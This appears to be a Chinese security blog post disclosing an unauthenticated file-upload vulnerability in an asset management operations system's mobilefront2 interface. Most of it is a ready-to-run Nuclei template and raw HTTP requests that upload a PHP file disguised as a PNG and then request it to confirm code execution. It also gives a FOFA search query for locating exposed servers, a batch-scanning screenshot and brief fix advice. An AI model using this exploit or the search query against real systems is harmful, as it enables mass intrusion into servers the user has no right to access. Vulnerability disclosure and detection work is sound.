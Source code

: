 #  资产管理运营系统mobilefront2接口处存在前台文件上传漏洞【漏洞复现|附nuclei-POC】   
原创 kingkong  脚本小子   2024-11-29 00:30  
  
****  
**免责声明：**  
**本文内容仅供技术学习参考，请勿用于违法破坏。利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，与作者无关。如有侵权请联系删除。**  
  
****  
****  
**漏洞描述：**  
  
资产管理运营系统mobilefront2接口处存在前台文件上传漏洞。  
攻击者可通过上传包含恶意代码的文件到服务器，使恶意文件被执行，从而导致系统被入侵或遭受其他安全风险。  
  
  
01  
  
—  
  
**Nuclei POC**  
  
```
id: zichanguanliyunyingxitong-mobilefront2-fileupload

info:
  name: 资产管理运营系统mobilefront2接口处存在前台文件上传漏洞

  author: kingkong
  severity: high
  metadata:
    fofa-query: body="media/css/uniform.default.css" && body="资管云"

http:
  - raw:
      - |
        POST /mobilefront/c/2.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: multipart/form-data; boundary=---------------------------289666258334735365651210512949
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        X-Requested-With: XMLHttpRequest
        Content-Length: 35827

        -----------------------------289666258334735365651210512949
        Content-Disposition: form-data; name="file1"; filename="1.php"
        Content-Type: image/png

        <?php echo md5(123456);@unlink(__FILE__);?>
        -----------------------------289666258334735365651210512949--

      - |
        GET /mobilefront/c/images2/{{fileUrl}} HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
              - 'status_code_1 == 200'
              - 'status_code_2 == 200'
              - 'contains(body_2,"e10adc3949ba59abbe56e057f20f883e")'
        condition: and

    extractors:
      - type: regex
        name: fileUrl
        part: body_1
        group: 1
        regex:
          - ([0-9]{11}.php)
        internal: true
```  
  
  
02  
  
—  
  
搜索语法  
```
FOFA：body="media/css/uniform.default.css" && body="资管云"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohncjmkluNgEh2MgDZNibu6s8iaAXV9evhPq2Ar2SGmXsekIhFfGC8hiacuvtiaIeluCorqAn24t3XDpiagw/640?wx_fmt=png&from=appmsg "")  
  
界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohncjmkluNgEh2MgDZNibu6s8iadk2depYBMhyEfPqSO0jsicxILfcDhAZ3PmdPAvDiccQaPicOSLlejOUdA/640?wx_fmt=png&from=appmsg "")  
  
03  
  
—  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohncjmkluNgEh2MgDZNibu6s8iaZzESIWibbZIkBNXmtUbE5OfnBiatiazDcFYyH6sImzODAGLTlsEYibWYWA/640?wx_fmt=png&from=appmsg "")  
  
访问验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohncjmkluNgEh2MgDZNibu6s8iajiaib1Lwia0PxkOnWXNo8KDBC84RnunX5FvoS85JUtunNhEawbFlQMbNg/640?wx_fmt=png&from=appmsg "")  
漏洞检测POC  
```
POST /mobilefront/c/2.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Connection: close
Content-Length: 260
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------289666258334735365651210512949
X-Requested-With: XMLHttpRequest

-----------------------------289666258334735365651210512949
Content-Disposition: form-data; name="file1"; filename="1.php"
Content-Type: image/png

<?php echo md5(123456);@unlink(__FILE__);?>
-----------------------------289666258334735365651210512949--

GET /mobilefront/c/images2/17327589271.php HTTP/1.1
Host:

```  
  
  
neclei批量检测截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohncjmkluNgEh2MgDZNibu6s8iaJXYicOTXmG5SbFY2LXhr9oanAUDZAeMuffYBrQ9R49rCicE6bAgUwepQ/640?wx_fmt=png&from=appmsg "")  
  
  
04  
  
—  
  
修复建议  
  
  
1、文件类型验证：仅允许上传特定类型的文件，例如图像、文档等，并拒绝可执行文件或其他潜在的恶意文件类型。  
  
2、文件大小限制：限制上传文件的大小，以防止恶意用户上传过大的文件导致服务器资源耗尽。  
  
3、文件名处理：对上传的文件进行重命名，避免使用用户提供的文件名，以防止路径遍历攻击。  
  
05  
  
—  
  
下载地址  
  
  
进入公众号点击POC可获取所有POC文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneS7aOPfDNKhvOicibVlyrkJ3A4EuUx5c5S8eAxFnF9KiaibAGJfP6ibB6ze4Rm4pZ7MI4jQibT05lTevqg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
  
  
  
